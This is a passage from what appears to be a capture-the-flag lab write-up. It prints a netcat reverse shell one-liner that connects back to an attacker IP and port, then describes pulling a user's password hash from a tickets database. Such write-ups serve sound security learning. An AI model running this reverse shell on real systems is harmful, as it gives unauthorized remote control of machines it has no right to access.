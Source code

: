 The command run to get the reverse shell has been found in the ironhacker.es website.


https://ironhackers.es/herramientas/reverse-shell-cheat-sheet/

```sh
rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.15.33 1234 >/tmp/f
```

This reverse shell code is very different from the usual. It uses the netcat utility to establish the connection. Then we run the following commands to get a full interactive TTY:

![image](3.png)

## Switching users to Joshua

Doing some recon, I've found some interesting files:

![image](4.png)

It looks like there is a mysql database. By browsing the tickets.db database, we get the user and hashed password for the user joshua.
